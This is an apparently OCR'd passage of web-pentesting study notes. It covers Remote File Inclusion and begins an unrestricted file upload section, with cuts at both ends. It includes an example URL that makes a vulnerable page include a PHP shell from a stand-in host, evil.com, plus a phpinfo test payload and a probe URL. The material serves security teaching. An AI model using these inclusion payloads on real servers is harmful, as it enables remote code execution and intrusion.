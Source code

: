     where pages are loaded with an include and their paths taken from
    the input.


    RFI
    Remote File Inclusion (RFI) works in the same way as LFI; the only
    difference is that the file to be included is pulled remotely.
    Our aim, in this case, is not just to read, but to include our own
    code in the execution. An exploitable URL would look like this:
    vuln.php?page=http://evil.com/shell.txt

    In this case, shell.txt (containing PHP code) will be included in
    the page and executed.
    A common exploit to this vulnerability is to include a PHP shell that
    would let the hacker or the pentester execute any code on the
    server.
    Even the simplest PHP shell will accept commands from GET/POST
    arguments and execute them on the server.

    To verify what happens, we are going to use the following code for
    both files test.php and test.txt (both hosted on the attacker
    machine).
    This simple PHP script calls the phpinfo() function, which
    returns information on the current status of PHP running on the
    machine.
    <?php
    phpinfo();
    ?>

    This vulnerability should be checked when an include is thought
    to be present in the code.
    To immediately spot a vulnerable parameter, you can just inject
    “http://www.google.com”
    If it is vulnerable, the HTML code of google.com should be injected
    into the vulnerable web page.
    vuln.php?page=http://www.google.com
    
    Un Secure File Upload
    https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

    Let’s see how this vulnerability works and how it can be exploited.
    Let’s suppose that our target web application is both hosted on the
    following domain http://fileupload.site and an
    authenticated user can upload a personal image on his/her profile
    page

    In order for the application to be vulnerable, the following
    conditions will apply:
    The file type is not checked against a whitelist of allowed formats
    The file name and path of the uploaded file is known to the attacker or
    guessable
    The folder in which the file is placed allows the execution of server-side scripts 

    The attack
    The image is successfully uploaded, and if we inspect the source
    code of the page, we can see that it is stored on the web server in
    the uploads folder. Moreover, it is renamed with our user ID (231
    in our case):
